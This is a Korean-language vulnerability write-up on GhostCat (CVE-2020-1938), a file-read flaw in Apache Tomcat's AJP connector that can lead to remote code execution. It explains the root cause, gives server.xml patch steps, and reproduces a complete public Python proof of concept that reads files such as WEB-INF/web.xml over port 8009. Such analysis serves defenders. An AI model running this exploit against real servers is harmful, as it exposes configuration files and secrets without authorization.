

# GhostCat - Apache Tomcat AJX RCE 취약점

## Information
- CVE : 2020-1938
- 해당 소프트웨어 : Apache Tomcat
- 해당 버전 :Apache Tomcat 9.x < 9.0.31, Apache Tomcat 8.x < 8.5.51, Apache Tomcat 7.x < 7.0.100, Apache Tomcat 6.x
- 취약점 유형 :  Local File Include/Read vulnerability (조건부로 RCE 가능)


## Description

해당 취약점은 Apache 기반 서버에서 처리하는 AJP 프로토콜의 취약점으로서, 공격자가 Tomcat의 webapp 목록 하위에 있는 모든 임의의 파일을 읽을 수 있다. 취약한 서버가 파일 업로드를 허용할 경우에는 이를 악용하여 파일 내 악성 JSP 코드를 업로드한 후 RCE까지 가능한 취약점이다. 

## Root Cause

### AJP Protocol

AJP는 TCP 연결을 사용하여 웹 서버 뒤에 존재하는 서블릿 컨테이너와 통신하기 위해 아파치 톰캣 웹 서버에 의해 사용되는 바이너리 프로토콜이다. HTTP 커넥터가 클라이언트에 노출되는 반면 AJP는 웹 서버 (예 : Apache HTTPD)와 Apache Tomcat 서버 사이에서 내부적으로 사용된다.(아래 그림 참조) AJP는 Apache HTTP Server에서 mod_jk 또는 mod_proxy_ajp로 표시되는 모듈로 구현된다. 중요한 점은,  AJP가 기본적으로는 외부에 노출되지 않는다는 점이다. 



그림 1. AJP Protocol[3]


### Vulnerability

취약점에 대한 상세 분석은 KOROMOON[2]에서 잘 설명해두어, 해당 내용을 기반으로 설명한다. 

이 취약점은 Apache Tomcat 취약한 버전의 /conf/server.xml에서 기본적으로 설정된 AJP 설정에 의해 발생한다. 해당 부분은 아래와 같다. 

```xml
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
```

위와 같이 설정된 상태에서 Tomcat 이 AJP 요청을 받았을 경우, org.apache.coyote.ajp.AjpProcessor.java 를 호출하여 AJP 메세지를 처리한다. prepareRequest 메소드를 통해 AJP 메세지 내용을 추출하여 Request 객체의 Attribute 속성으로 설정한다. 


그림 2. prepareRequest Method[2]


아래의 코드에서 Constants.SC_A_REQ_ATTRIBUTE 를 처리하는 코드를 보면, 요청된 내용에 대한 검증을 전혀 하지 않고, 메모리에 복사하여 활용한다.(변수 n, v) 즉, 문법적 양식만 맞으면 request.setAttribute를 이용하여 Attribute 속성을 변경할 수 있게 된다. 이 코드를 이용하여 제어할 수 있는 속성값은 javax.servlet.include.request_uri, javax.servlet.include.path_info, javax.servlet.include.servlet_path 세 가지이다. 


그림 3. request.setAttribute 메소드[2]


## Patch

기본적으로는 Tomcat 버전을 취약점이 해결된 버전으로 변경하는 것이 권장되나, AJP Connector을 비활성화하거나 IP주소를 localhost 내로 제한하는 방법으로도 조치가 가능하다. 

### 1. AJP Connector를 사용하지 않는 경우

<CATALINA_BASE>/conf/server.xml 파일을 열어 아래의 <Connector> 구문에 해당하는 부분을 찾는다.

```xml
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
```

해당 부분을주석처리한다.

```xml
<!--<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />-->
```

### 2. AJP Connector을 사용하는 경우

Tomcat 업그레이드가 가능한 경우에는 아래와 같이 AJP Connector 설정을 변경한다.

```xml
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" address="YOUR_TOMCAT_IP_ADDRESS" secret="YOUR_TOMCAT_AJP_SECRET" />
```

Tomcat 업그레이드가 불가능한 경우에는 아래와 같이 AJP Connector에 "RequiredSecret" 속성을 추가한다.

```xml
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" address="YOUR_TOMCAT_IP_ADDRESS" requiredSecret="YOUR_TOMCAT_AJP_SECRET" />
```


## PoC
[공개된 PoC](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)는 아래와 같다. 이 PoC는 취약점을 이용하여 WEB-INF/web.xml 파일에 접근하여 코드를 확인하는 식으로 작성되었다. 

```python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
	if s is None:
		return struct.pack(">h", -1)
	l = len(s)
	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
	size = struct.calcsize(fmt)
	buf = stream.read(size)
	return struct.unpack(fmt, buf)
def unpack_string(stream):
	size, = unpack(stream, ">h")
	if size == -1: # null string
		return None
	res, = unpack(stream, "%ds" % size)
	stream.read(1) # \0
	return res
class NotFoundException(Exception):
	pass
class AjpBodyRequest(object):
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	MAX_REQUEST_LENGTH = 8186
	def __init__(self, data_stream, data_len, data_direction=None):
		self.data_stream = data_stream
		self.data_len = data_len
		self.data_direction = data_direction
	def serialize(self):
		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)
		if len(data) == 0:
			return struct.pack(">bbH", 0x12, 0x34, 0x00)
		else:
			res = struct.pack(">H", len(data))
			res += data
		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbH", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbH", 0x41, 0x42, len(res))
		return header + res
	def send_and_receive(self, socket, stream):
		while True:
			data = self.serialize()
			socket.send(data)
			r = AjpResponse.receive(stream)
			while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:
				r = AjpResponse.receive(stream)

			if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:
				break
class AjpForwardRequest(object):
	_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)
	REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	COMMON_HEADERS = ["SC_REQ_ACCEPT",
		"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",
		"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",
		"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"
	]
	ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]
	def __init__(self, data_direction=None):
		self.prefix_code = 0x02
		self.method = None
		self.protocol = None
		self.req_uri = None
		self.remote_addr = None
		self.remote_host = None
		self.server_name = None
		self.server_port = None
		self.is_ssl = None
		self.num_headers = None
		self.request_headers = None
		self.attributes = None
		self.data_direction = data_direction
	def pack_headers(self):
		self.num_headers = len(self.request_headers)
		res = ""
		res = struct.pack(">h", self.num_headers)
		for h_name in self.request_headers:
			if h_name.startswith("SC_REQ"):
				code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1
				res += struct.pack("BB", 0xA0, code)
			else:
				res += pack_string(h_name)

			res += pack_string(self.request_headers[h_name])
		return res

	def pack_attributes(self):
		res = b""
		for attr in self.attributes:
			a_name = attr['name']
			code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1
			res += struct.pack("b", code)
			if a_name == "req_attribute":
				aa_name, a_value = attr['value']
				res += pack_string(aa_name)
				res += pack_string(a_value)
			else:
				res += pack_string(attr['value'])
		res += struct.pack("B", 0xFF)
		return res
	def serialize(self):
		res = ""
		res = struct.pack("bb", self.prefix_code, self.method)
		res += pack_string(self.protocol)
		res += pack_string(self.req_uri)
		res += pack_string(self.remote_addr)
		res += pack_string(self.remote_host)
		res += pack_string(self.server_name)
		res += struct.pack(">h", self.server_port)
		res += struct.pack("?", self.is_ssl)
		res += self.pack_headers()
		res += self.pack_attributes()
		if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbh", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbh", 0x41, 0x42, len(res))
		return header + res
	def parse(self, raw_packet):
		stream = StringIO(raw_packet)
		self.magic1, self.magic2, data_len = unpack(stream, "bbH")
		self.prefix_code, self.method = unpack(stream, "bb")
		self.protocol = unpack_string(stream)
		self.req_uri = unpack_string(stream)
		self.remote_addr = unpack_string(stream)
		self.remote_host = unpack_string(stream)
		self.server_name = unpack_string(stream)
		self.server_port = unpack(stream, ">h")
		self.is_ssl = unpack(stream, "?")
		self.num_headers, = unpack(stream, ">H")
		self.request_headers = {}
		for i in range(self.num_headers):
			code, = unpack(stream, ">H")
			if code > 0xA000:
				h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]
			else:
				h_name = unpack(stream, "%ds" % code)
				stream.read(1) # \0
			h_value = unpack_string(stream)
			self.request_headers[h_name] = h_value
	def send_and_receive(self, socket, stream, save_cookies=False):
		res = []
		i = socket.sendall(self.serialize())
		if self.method == AjpForwardRequest.POST:
			return res

		r = AjpResponse.receive(stream)
		assert r.prefix_code == AjpResponse.SEND_HEADERS
		res.append(r)
		if save_cookies and 'Set-Cookie' in r.response_headers:
			self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']

		# read body chunks and end response packets
		while True:
			r = AjpResponse.receive(stream)
			res.append(r)
			if r.prefix_code == AjpResponse.END_RESPONSE:
				break
			elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:
				continue
			else:
				raise NotImplementedError
				break

		return res

class AjpResponse(object):
	_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)
	COMMON_SEND_HEADERS = [
			"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",
			"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"
			]
	def parse(self, stream):
		# read headers
		self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")

		if self.prefix_code == AjpResponse.SEND_HEADERS:
			self.parse_send_headers(stream)
		elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:
			self.parse_send_body_chunk(stream)
		elif self.prefix_code == AjpResponse.END_RESPONSE:
			self.parse_end_response(stream)
		elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:
			self.parse_get_body_chunk(stream)
		else:
			raise NotImplementedError

	def parse_send_headers(self, stream):
		self.http_status_code, = unpack(stream, ">H")
		self.http_status_msg = unpack_string(stream)
		self.num_headers, = unpack(stream, ">H")
		self.response_headers = {}
		for i in range(self.num_headers):
			code, = unpack(stream, ">H")
			if code <= 0xA000: # custom header
				h_name, = unpack(stream, "%ds" % code)
				stream.read(1) # \0
				h_value = unpack_string(stream)
			else:
				h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
				h_value = unpack_string(stream)
			self.response_headers[h_name] = h_value

	def parse_send_body_chunk(self, stream):
		self.data_length, = unpack(stream, ">H")
		self.data = stream.read(self.data_length+1)

	def parse_end_response(self, stream):
		self.reuse, = unpack(stream, "b")

	def parse_get_body_chunk(self, stream):
		rlen, = unpack(stream, ">H")
		return rlen

	@staticmethod
	def receive(stream):
		r = AjpResponse()
		r.parse(stream)
		return r

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
	fr.method = method
	fr.protocol = "HTTP/1.1"
	fr.req_uri = req_uri
	fr.remote_addr = target_host
	fr.remote_host = None
	fr.server_name = target_host
	fr.server_port = 80
	fr.request_headers = {
		'SC_REQ_ACCEPT': 'text/html',
		'SC_REQ_CONNECTION': 'keep-alive',
		'SC_REQ_CONTENT_LENGTH': '0',
		'SC_REQ_HOST': target_host,
		'SC_REQ_USER_AGENT': 'Mozilla',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'en-US,en;q=0.5',
		'Upgrade-Insecure-Requests': '1',
		'Cache-Control': 'max-age=0'
	}
	fr.is_ssl = False
	fr.attributes = []
	return fr

class Tomcat(object):
	def __init__(self, target_host, target_port):
		self.target_host = target_host
		self.target_port = target_port

		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
		self.socket.connect((target_host, target_port))
		self.stream = self.socket.makefile("rb", bufsize=0)

	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
		self.req_uri = req_uri
		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
		if user is not None and password is not None:
			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
		for h in headers:
			self.forward_request.request_headers[h] = headers[h]
		for a in attributes:
			self.forward_request.attributes.append(a)
		responses = self.forward_request.send_and_receive(self.socket, self.stream)
		if len(responses) == 0:
			return None, None
		snd_hdrs_res = responses[0]
		data_res = responses[1:-1]
		if len(data_res) == 0:
			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
		return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data for d in data]))
```

## Reference
[1] [PoC - ydhcui](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

[2] [Ghostcat Vulnerability - KOROMOON](https://koromoon.blogspot.com/2020/03/cve-2020-1938-ghostcat-vulnerability.html)

[3] [Busting Ghostcat: An Analysis of the Apache Tomcat Vulnerability (CVE-2020-1938 and CNVD-2020-10487) - TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487/)

[4] [ChostCat vulnerability - Chaitin Tech](https://www.chaitin.cn/en/ghostcat#download)